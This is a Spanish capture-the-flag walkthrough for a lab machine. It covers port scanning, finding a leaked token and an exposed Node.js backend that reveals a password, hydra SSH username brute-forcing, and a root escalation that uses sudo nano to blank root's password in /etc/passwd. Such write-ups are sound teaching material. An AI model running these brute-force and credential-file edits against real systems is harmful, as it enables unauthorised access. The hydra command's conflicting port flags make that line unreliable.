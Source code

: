 ## 1. Reconocimiento Inicial de Puertos con Nmap

Realizamos un escaneo con `nmap` para detectar puertos abiertos, sus versiones y el sistema operativo. Esto nos ayuda a entender qué servicios están expuestos y si hay alguna vulnerabilidad conocida asociada a sus versiones.

```bash
nmap -O -sC -sV <IP_DEL_OBJETIVO>
```

**Resultados Clave:**

*   `80/tcp open http Apache httpd 2.4.61`: El puerto 80 está abierto y ejecuta un servidor web Apache.
*   `3000/tcp open http Node.js Express framework`: El puerto 3000 está abierto y ejecuta una aplicación Node.js Express. Esto es interesante, ya que las aplicaciones web a menudo contienen vulnerabilidades.
*   `5000/tcp open ssh OpenSSH 9.2p1 Debian`: El puerto 5000 está abierto y ejecuta OpenSSH. Es importante notar que el puerto SSH no es el estándar (22), lo que podría indicar una configuración personalizada.

## 2. Enumeración Web y Descubrimiento de Información Sensible

La presencia de un servidor web Apache y una aplicación Node.js en el puerto 3000 sugiere que la enumeración web será crucial.

### 2.1. Inspección de la Página Web (Puerto 80)

Al visitar la página web en el puerto 80 (`http://<IP_DEL_OBJETIVO>`), encontramos un botón que no funciona. Esto es una pista para inspeccionar el código fuente de la página.

### 2.2. Análisis del Código Fuente y Archivo JavaScript

Al inspeccionar el código fuente de la página web, encontramos un enlace a un archivo JavaScript: `http://<IP_DEL_OBJETIVO>/authentication.js`. Accedemos a este archivo y encontramos una función `autenticate()` que contiene un mensaje en la consola:

```javascript
function autenticate() {
    console.log("Para opciones de depuracion, el token de /recurso/ es tokentraviesito");
}
```

Este mensaje nos indica que hay un endpoint `/recurso/` que requiere un token de autenticación, y nos proporciona el token: `tokentraviesito`.

### 2.3. Fuzzing Web (Gobuster)

Aunque ya tenemos una pista importante, realizar un fuzzing de directorios con `gobuster` es una buena práctica para descubrir otras rutas o archivos ocultos en el servidor web.

```bash
gobuster dir -u http://<IP_DEL_OBJETIVO>/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt
```

**Resultados Relevantes:**

*   `/backend` (Status: 301) [--> `http://<IP_DEL_OBJETIVO>/backend/`]: Este directorio es redirigido, lo que indica que contiene contenido.

Al explorar `http://<IP_DEL_OBJETIVO>/backend/`, encontramos una lista de archivos, incluyendo `server.js`.

## 3. Análisis del Código del Servidor (server.js)

El archivo `server.js` es el código fuente de la aplicación Node.js Express. Analizarlo nos dará una comprensión más profunda de cómo funciona la aplicación y cómo podemos explotarla.

### 3.1. Contenido de `server.js`

```javascript
const express = require(\'express\');
const app = express();

const port = 3000;

app.use(express.json());

app.post(\'/recurso/\', (req, res) => {
    const token = req.body.token;
    if (token === \'tokentraviesito\') {
        res.send(\'lapassworddebackupmaschingonadetodas\');
    } else {
        res.status(401).send(\'Unauthorized\');
    }
});

app.listen(port, \'0.0.0.0\', () => {
    console.log(`Backend listening at http://consolelog.lab:${port}`);
});
```

**Análisis del Código:**

*   La aplicación escucha en el puerto 3000.
*   Define una ruta POST `/recurso/`.
*   Verifica si el `token` enviado en el cuerpo de la solicitud (`req.body.token`) es igual a `tokentraviesito`.
*   Si el token es correcto, envía como respuesta la cadena `lapassworddebackupmaschingonadetodas`.

¡Hemos encontrado la contraseña! La contraseña es `lapassworddebackupmaschingonadetodas`.

## 4. Acceso Inicial (SSH)

Ahora que tenemos una contraseña, necesitamos un nombre de usuario para intentar acceder vía SSH (puerto 5000).

### 4.1. Fuerza Bruta SSH para Obtener el Usuario

Utilizamos `hydra` para realizar un ataque de fuerza bruta, pero esta vez, con la contraseña que ya conocemos, intentaremos adivinar el nombre de usuario. Usaremos un diccionario de nombres de usuario comunes.

```bash
hydra -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -p lapassworddebackupmaschingonadetodas ssh://<IP_DEL_OBJETIVO>:5000 -s 22 -t 64
```

**Resultado Clave:**

```bash
[5000][ssh] host: 172.17.0.2   login: lovely   password: lapassworddebackupmaschingonadetodas
```

Esto nos proporciona el nombre de usuario: `lovely`.

### 4.2. Conexión SSH

Con las credenciales obtenidas (`lovely:lapassworddebackupmaschingonadetodas`), nos conectamos al servidor SSH.

```bash
ssh -p 5000 lovely@<IP_DEL_OBJETIVO>
# Contraseña: lapassworddebackupmaschingonadetodas
```

## 5. Escalada de Privilegios

Una vez que hemos obtenido acceso SSH como el usuario `lovely`, el objetivo es escalar privilegios a `root`.

### 5.1. Verificación de Permisos Sudo

Verificamos qué comandos puede ejecutar el usuario `lovely` con `sudo` sin necesidad de contraseña. Esto se hace con el comando `sudo -l`.

```bash
sudo -l
```

**Resultados Clave:**

*   `(ALL) NOPASSWD: /usr/bin/nano`

Esto significa que el usuario `lovely` puede ejecutar el editor de texto `nano` como cualquier usuario (incluido `root`) sin necesidad de introducir su contraseña.

### 5.2. Manipulación de `/etc/passwd` para Obtener Root

El archivo `/etc/passwd` contiene información sobre los usuarios del sistema. La segunda columna de cada entrada (separada por dos puntos `:`) suele contener una `x` si la contraseña está almacenada en `/etc/shadow`. Si eliminamos la `x` para el usuario `root`, podemos iniciar sesión como `root` sin contraseña.

1.  **Editar `/etc/passwd` con `nano` como `root`:**

```bash
sudo -u root /usr/bin/nano /etc/passwd
```

Dentro de `nano`, busca la línea que comienza con `root:` y elimina la `x` después del primer dos puntos. La línea debería cambiar de `root:x:0:0:root:/root:/bin/bash` a `root::0:0:root:/root:/bin/bash`.

2.  **Guardar y Salir:** Guarda los cambios (Ctrl+O, Enter) y sal de `nano` (Ctrl+X).

3.  **Cambiar a `root`:** Ahora, puedes usar el comando `su root` (o simplemente `su`) y no te pedirá contraseña.

```bash
su root
```

El comando `whoami` confirmará que hemos escalado exitosamente a `root`.

```bash
whoami
# root
```

